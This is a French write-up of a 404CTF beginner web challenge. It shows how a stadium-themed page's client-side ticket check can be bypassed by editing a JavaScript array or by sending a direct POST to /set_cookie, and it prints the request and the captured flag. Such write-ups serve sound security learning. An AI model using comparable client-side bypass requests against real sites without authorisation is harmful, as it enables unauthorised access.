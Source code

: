 # Vous êtes en RETARD
## Enoncé
> Vous voilà devant le stade pour voir le dernier match de votre équipe préférée, le Gorfou FC !
> Malheureusement, vous êtes arrivé.e en retard et l'entrée est fermée... Mais pas de panique, il vous suffit de trouver un moyen pour quand même rentrer !

Auteur: **@Asumamusa**
 
Connexion: `https://en-retard.challenges.404ctf.fr`

## Analyse

On arrive directement sur une page vierge avec un panneau nous signalant une interdiction

<p align="center">
    <img src="../../images/404CTFWeb1.png" alt="img1" style="width:40%;">
</p>

En inspectant le code source on tombe sur un script js intéressant:
```javascript
setInterval(function() {
    var panneau = document.querySelector('.panneau');
    var barre = document.querySelector('.barre-en-fer');
    if (!panneau && barre) {
        barre.remove();
    }
}, 100);

document.querySelector('.entrer-dans-le-stade').addEventListener('click', function() {
    window.location.href = '/donnez-moi-mon-ticket-pitie';
});

window.onload = function() {
    var cookies = document.cookie.split('; ');
    var fraudeur = cookies.find(row => row.startsWith('fraude='));

    if (fraudeur && fraudeur.split('=')[1] === 'true') {
        var zoneTexte = document.querySelector('.zone-texte');
        zoneTexte.textContent = 'Vous avez essayé de frauder, mais le vigile vous a aperçu et vous a ramené à l\'entrée...';
        zoneTexte.style.display = 'block';
    }
};
```
On se rend sur le chemin `/donnez-moi-mon-ticket-pitie` et on trouve encore une fois un nouveau script js:
```javascript
var bouton = document.querySelector('.valider-billet');
var billet = document.querySelector('.billet');
window.validable = [];
bouton.addEventListener('click', function() {
    if (window.validable.includes(billet.id)) {
        fetch('/set_cookie', {method: 'POST'}).then(function() {
            window.location.href = "/devant-le-match";
        });
    } else {
        alert('Billet non validé');
    }
});
```
## Exploitation

On peut alors soit modifier la variable `window.validable` pour y inclue un id, soit directement faire une requête POST au chemin `/set_cookie`.
```http
POST /set_cookie HTTP/2
Host: en-retard.challenges.404ctf.fr
Sec-Ch-Ua: "Not-A.Brand";v="99", "Chromium";v="124"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.60 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: fr-FR,fr;q=0.9,en-US;q=0.8,en;q=0.7
Priority: u=0, i
```

Le flag est reçu sous forme de cookie en clair `allergies=404CTF{gluten-sucre-au-sucre}`

Flag: **404CTF{gluten-sucre-au-sucre}**